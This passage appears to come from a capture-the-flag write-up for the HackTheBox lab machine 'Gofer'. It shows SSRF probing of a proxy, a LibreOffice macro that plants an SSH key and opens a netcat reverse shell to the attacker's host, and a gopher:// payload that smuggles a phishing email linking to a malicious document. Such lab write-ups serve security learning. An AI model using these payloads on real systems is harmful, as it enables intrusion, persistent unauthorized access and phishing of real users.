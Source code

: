 ```bash
~z➤ curl -X POST proxy.gofer.htb/index.php
<!-- Welcome to Gofer proxy -->
<html><body>Missing URL parameter !</body></html>%
```

That proxy is trying to pull data from the given url:
```bash
~z➤ curl -X POST "proxy.gofer.htb/index.php?url=http://10.10.14.7:6666/foo"
<!-- Welcome to Gofer proxy -->
<!DOCTYPE HTML>
<html lang="en">
    <head>
        <meta charset="utf-8">
        <title>Error response</title>
    </head>
    <body>
        <h1>Error response</h1>
        <p>Error code: 404</p>
        <p>Message: File not found.</p>
        <p>Error code explanation: 404 - Nothing matches the given URI.</p>
    </body>
</html>
1%
```

```bash
.../infosec/htb/p8➤ python -m http.server 6666
Serving HTTP on 0.0.0.0 port 6666 (http://0.0.0.0:6666/) ...
10.10.11.225 - - [31/Aug/2023 10:10:51] code 404, message File not found
10.10.11.225 - - [31/Aug/2023 10:10:51] "GET /foo HTTP/1.1" 404 -
```

Creating a macro with rev shell
{{< limg "/i/2023-08-31_10-23.png" "Libreoffice macro rev shell" >}}




LibreOffice Macro:
```bash
REM  *****  BASIC  *****
Sub Main
 Shell("mkdir -p /home/jhudson/.ssh")
 Shell("curl 10.10.14.7:6666/authorized_keys --output /home/jhudson/.ssh/authorized_keys")
 Shell("chmod 600 /home/jhudson/.ssh/authorized_keys")
 Shell("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc 10.10.14.7 55555 >/tmp/f")
End Sub
```

The payload:
```txt
gopher://2130706433:25/xHELO%20gofer.htb%250d%250aMAIL%20FROM%3A%3Chacker@site.com%3E%250d%250aRCPT%20TO%3A%3Cjhudson@gofer.htb%3E%250d%250aDATA%250d%250aFrom%3A%20%5BHacker%5D%20%3Chacker@site.com%3E%250d%250aTo%3A%20%3Cjhudson@gofer.htb%3E%250d%250aDate%3A%20Tue%2C%2015%20Sep%202017%2017%3A20%3A26%20-0400%250d%250aSubject%3A%20AH%20AH%20AH%250d%250a%250d%250aYou%20didn%27t%20say%20the%20magic%20word%20%21%20<a+href%3d'http%3a//10.10.14.7:6666/shell.odt>this</a>%250d%250a%250d%250a%250d%250a.%250d%250aQUIT%250d%250a 
```

